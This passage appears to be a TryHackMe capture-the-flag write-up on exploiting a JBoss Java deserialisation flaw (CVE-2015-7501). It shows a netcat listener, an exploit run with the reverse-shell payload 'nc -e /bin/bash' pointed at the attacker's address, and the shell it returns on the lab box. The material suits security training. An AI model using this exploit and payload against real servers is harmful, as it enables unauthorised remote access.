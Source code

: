 * FILE NAME: `jboss.zip (48.3MB~)`
* MD5 CHECKSUM: `ED2B009552080A4E0615451DB0769F8B`

The attached resources are compiled together to ensure that everyone is able to complete the exploit, these resources are not my own creations (although have been very slightly modified for compatibility) and all credit is retained to the respective authors listed within "credits.txt" as well as the end of the room.

It is your task to research the vulnerability [CVE-2015-7501](https://www.rapid7.com/db/vulnerabilities/http-jboss-cve-2015-7501) and to use it to obtain a shell to the instance using the payload & exploit provided. There may be a few ways of doing it...If you are struggling, [I have written an example of how this vulnerability is used to launch an application on Windows](https://blog.cmnatic.co.uk/posts/exploiting-a-java-de-serialisation-attack-on-windows-demo/).

There's also a couple of ways of exploiting this service - I really encourage you to investigate into them yourself!

## #5.1 - I have obtained a shell.

Open a listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

And run the exploit :

~~~
unknown@kali:/data/tmp/jboss$ python exploit.py 10.10.185.100:8080 "nc -e /bin/bash 10.9.0.54 4444"
[*] Target IP: 10.10.185.100
[*] Target PORT: 8080
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Command executed successfully
~~~

We now have a reverse shell:

~~~
unknown@kali:/data/tmp$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.9.0.54] from (UNKNOWN) [10.10.185.100] 39902
SHELL=/bin/bash script -q /dev/null
cmnatic@thm-java-deserial:/$ whoami
cmnatic
cmnatic@thm-java-deserial:/$ 
~~~

# [Task 6] Find User JBoss' flag!

Knowledge of the Linux (specifically Ubuntu/Debian)'s file system structure & permissions is expected. If you are struggling, I strongly advise checking out the fantastic TryHackMe ZTHLinux Room by lollava.

## #6.1 - This flag has the formatting of "THM{}"
